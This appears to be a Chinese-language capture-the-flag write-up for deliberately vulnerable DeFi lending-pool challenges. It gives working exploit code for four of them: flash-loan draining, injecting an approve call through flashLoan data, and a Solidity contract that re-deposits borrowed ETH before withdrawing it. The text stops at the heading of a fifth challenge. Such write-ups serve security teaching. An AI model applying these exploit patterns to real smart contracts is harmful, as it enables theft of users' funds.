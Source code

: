 ### 1.unstoppable
根据题目，即为攻击合约让他停止工作，在flashLoan函数里面有一句assert(poolBalance == balancebefore),所以让两者不相等即可 

方法即为：transfer 1 ether给合约 

攻击代码： 

 it('Exploit', async function () { 
 
     /** COOD YOUR EXPLOIT HIRE */ 
     
     await this.token.transfer(this.pool.address,1); 
     
 }); 
 
 ### 2.Naive receiver 
 
 题目要求：抽空用户合约里的所有eth 
 
 flashLoan函数以borrower借款 
 
 攻击代码： 
 
  it('Exploit', async function () { 
  
     /** COOD YOUR EXPLOIT HIRE */ 
     
     for(i=0;i<10;i++){ 
     
     await this.pool.flashLoan(this.receiver.address,0); 
     
     } 
     
  });  

  ### 3.Truster
  ##### call注入，data里调用approve给攻击者地址授权，然后再用transferfrom将钱转过来
```
  it('Exploit', async function () {
    const data = web3.eth.abi.encodeFunctionCall({
        name: 'approve',
        type: 'function',
        inputs: [{
            type: 'address',
            name: 'spender'
        },{
            type: 'uint256',
            name: 'amount'
        }]
    }, [attacker, TOKENS_IN_POOL.toString()]); 

    await this.pool.flashLoan(0, attacker, this.token.address, data);
    await this.token.transferFrom(this.pool.address, attacker, TOKENS_IN_POOL, { from: attacker });
});
```
### 4. Side entrance
从贷款池中借出一定量的 ETH 并通过 deposit() 函数将这部分 ETH 存入，那么在满足 address(this).balance >= balanceBefore 的同时，balances[msg.sender] 也会增加。然后我们再通过 withdraw() 函数取出，即可顺利提空贷款池中的内部金额
```
interface IFlashLoanEtherReceiver {
    function execute() external payable;
}

interface ISideEntranceLenderPool {
    function deposit() external payable;
    function withdraw() external;
    function flashLoan(uint256 amount) external;
}

contract AttackSideEntrance is IFlashLoanEtherReceiver {
    using Address for address payable;

    ISideEntranceLenderPool pool;

    function attack(ISideEntranceLenderPool _pool) public {
        pool = _pool;
        pool.flashLoan(address(_pool).balance);
        pool.withdraw();
        msg.sender.sendValue(address(this).balance);
    }

    function execute() external payable override {
        pool.deposit{value:msg.value}();
    }

    receive() external payable{}
}
const AttackSideEntrance = contract.fromArtifact('AttackSideEntrance');
// ...
it('Exploit', async function () {
    const attack = await AttackSideEntrance.new();
    await attack.attack(this.pool.address, { from: attacker });
});
```

### 5. The rewarder





  
